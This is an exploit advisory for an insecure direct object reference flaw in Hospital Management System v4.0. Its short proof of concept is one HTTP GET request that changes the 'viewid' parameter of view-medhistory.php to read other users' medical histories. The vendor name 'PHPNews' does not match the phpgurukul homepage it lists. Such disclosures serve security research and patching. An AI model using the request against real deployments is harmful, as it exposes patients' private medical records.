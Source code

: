 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker user to look up the other user's medical history(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /hospital/hms/view-medhistory.php?viewid=3(CHANGE HERE) HTTP/1.1
...
```





